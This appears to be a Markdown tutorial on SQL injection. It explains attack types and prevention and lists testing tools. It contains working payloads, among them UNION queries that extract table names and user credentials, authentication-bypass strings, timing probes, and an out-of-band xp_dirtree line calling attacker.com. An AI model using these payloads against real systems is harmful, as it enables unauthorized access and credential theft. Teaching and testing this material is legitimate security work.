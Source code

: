 # **SQL Injection (SQLi)     
SQL Injection (SQLi) is a web security vulnerability that allows attackers to manipulate SQL queries executed by an application’s database. This can lead to:  
> Unauthorized access to sensitive data  
> Bypassing authentication mechanisms  
> Data modification or deletion  
> Gaining control over the database server  

### **1.1 How SQL Injection Works**  
When an application fails to properly sanitize user input, attackers can insert malicious SQL code into queries.  

Example: Consider a vulnerable login system using the following SQL query:  
```sql
SELECT * FROM users WHERE username = '$user' AND password = '$pass';
```
If an attacker enters `' OR 1=1 --` as the username, the query becomes:  
```sql
SELECT * FROM users WHERE username = '' OR 1=1 --' AND password = '';
```
Since `1=1` is always true, the query bypasses authentication, granting access without a valid password.

---

## **2. Types of SQL Injection**  

### **1 Error-Based SQL Injection**  
Relies on extracting information from database error messages.  

**Example (MySQL)**:
```sql
' ORDER BY 1 --   # Checking number of columns
' UNION SELECT NULL, NULL, @@version --  # Extract database version
```
---
### **2 Boolean-Based (Blind) SQL Injection**  
The attacker infers information based on application behavior.  

**Example (Testing for User Existence):**  
```sql
' AND 1=1 --  # Valid query (application responds normally)
' AND 1=2 --  # Invalid query (application behaves differently)
```
If the second query causes a different response, the site is vulnerable.

---
### **3 Time-Based Blind SQL Injection**  
Used when no visible output is returned. The attacker delays the response to confirm injection.  

**Example (MySQL)**:
```sql
' OR IF(1=1, SLEEP(5), 0) --  # Causes a 5-second delay if the query is executed
```
---
### **4 Union-Based SQL Injection**  
Uses the `UNION` SQL operator to extract data.  

**Example (Extracting Database Name):**  
```sql
' UNION SELECT database(), NULL, NULL --
```
---
### **5 Out-of-Band SQL Injection**  
Extracts data via external interactions (DNS, HTTP requests).  

**Example (SQL Server – Sending Data to an Attacker's Server):**  
```sql
'; EXEC xp_dirtree('//attacker.com/payload') --
```
---

## **3. Exploiting SQL Injection**  
### **1 Finding the Number of Columns**  
```sql
' ORDER BY 1 --
' ORDER BY 2 --
' ORDER BY 3 --   # Increase the number until an error occurs
```
---
### **2 Extracting Database Version**  
```sql
' UNION SELECT @@version, NULL, NULL --
```
---
### **3 Extracting Table Names**  
```sql
' UNION SELECT table_name FROM information_schema.tables WHERE table_schema=database() --
```
---
### **4 Extracting Column Names from a Table**  
```sql
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users' --
```
---
### **5 Extracting User Credentials**  
```sql
' UNION SELECT username, password FROM users --
```
---

## **4. Bypassing Authentication with SQL Injection**
### ** Classic Bypass Payloads**  
- `admin' --`  
- `' OR '1'='1' --`  
- `" OR 1=1 #`  
- `admin' OR 1=1 --`  

---

## **5. Preventing SQL Injection**  

### **1 Use Prepared Statements (Parameterized Queries)**  
Ensures user input is treated as data, not SQL code.  

**Example (PHP – MySQLi Prepared Statement):**
```php
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->bind_param("ss", $username, $password);
$stmt->execute();
```

**Example (Python – SQLite3 Prepared Statement):**
```python
cursor.execute("SELECT * FROM users WHERE username=? AND password=?", (user, password))
```

---
### **2 Input Validation & Whitelisting**  
- Allow only expected input formats (e.g., email, numeric values).  
- Reject special characters like `'`, `--`, `;`, `"`  

---
### **3 Escape Special Characters**  
If prepared statements are not available, use escaping.  

**Example (PHP – MySQLi Escape):**
```php
$username = mysqli_real_escape_string($conn, $_GET['username']);
```
---
### **4 Use Least Privilege Principle**  
- Grant database users minimal privileges.  
- Avoid using `root` or `admin` accounts in web applications.  
- Restrict `DROP`, `DELETE`, and `UPDATE` permissions where unnecessary.  

---
### **5 Implement Web Application Firewalls (WAFs)**  
Use security tools to block malicious requests.  
- **ModSecurity**  
- **Cloudflare WAF**  
- **Imperva WAF**  

---

## **6. SQL Injection Testing Tools**
### **1 SQLMap (Automated Testing)**
```bash
sqlmap -u "http://example.com/login.php?id=1" --dbs
```
---
### **2 Burp Suite (Manual Testing)**
- Intercept and modify requests.  
- Test SQLi payloads in form fields.  

---
### **SQLi Tools & installation **
- **Havij** – GUI-based SQL Injection tool (https://github.com/MyIBGit/Havij-SQL-Injection-tool).  
- **NoSQLMap** – For NoSQL injection attacks (https://github.com/codingo/NoSQLMap.git).  
- **BBQSQL** – SQLi testing tool for blind SQL injections (https://github.com/CiscoCXSecurity/bbqsql).  

---



